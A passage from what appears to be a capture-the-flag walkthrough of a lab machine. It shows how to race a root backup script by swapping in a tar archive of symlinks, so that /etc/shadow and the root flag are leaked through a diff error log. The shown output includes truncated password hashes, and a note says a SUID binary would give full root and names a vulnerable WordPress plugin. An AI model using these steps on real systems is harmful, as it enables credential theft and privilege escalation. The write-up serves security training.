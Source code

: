 ```
lrwxrwxrwx 1 onuma onuma   11 Nov 20 10:37 1 -> /etc/shadow
lrwxrwxrwx 1 onuma onuma   14 Nov 20 10:37 2 -> /root/root.txt
```
> C)  Create tar archive in _/var/tmp_
```
$ cd /var/tmp
$ /bin/tar -zcvf a.tgz var/www/html
var/www/html/
var/www/html/1
var/www/html/2
```
> D) wait for the script to be executed and in the 30 seconds sleep copy _a.tgz_ over the temporary archive
```
$ ls -la
total 11292
drwxrwxrwt 11 root  root      4096 Nov 20 10:39 .
drwxr-xr-x 14 root  root      4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 11511804 Nov 20 10:39 .e21b7e8063b4e508e808ff136821ad237a787c86
-rw-r--r--  1 onuma onuma      185 Nov 20 10:39 a.tgz
...
drwxr-xr-x  3 onuma onuma     4096 Nov 20 10:36 var
$ cp a.tgz .e21b7e8063b4e508e808ff136821ad237a787c86
```
> E) wait for the check to complete

> F) check the log file _onuma_backup_error.txt_ under _/var/backups_ as it will contain differences between files _1_ and _2_ from _/var/www/html_ and a.tgz archive, i.e. contents of _/etc/shadow_ and _/root/root.txt_
```
$ cat /var/backups/onuma_backup_error.txt
...
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Sat Nov 20 10:40:21 EST 2021
------------------------------------------------------------------------
/var/tmp/.e21b7e8063b4e508e808ff136821ad237a787c86
diff -r /var/www/html/1 /var/tmp/check/var/www/html/1
0a1,31
> root:$6$AKRzYZby$Q88P1RTNm6Ho39GencM8qFL8hkhF0GmIhY.........
...
> sshd:*:17571:0:99999:7:::
> onuma:$6$P9azUgRM$U9lw7gpIvIVv1UK9zzzakd9mVwNe....
diff -r /var/www/html/2 /var/tmp/check/var/www/html/2
0a1
> e79abdab8b8a...........
```

# NB

## WordPress plugin gwolle-gb is actually version 1.5.3 and is vulnerable to RFI. Relevant EDB: 38861
## It _is_ possible to get full root access by putting suid binary in the _a.tgz_ archive and accessing it during the check phase


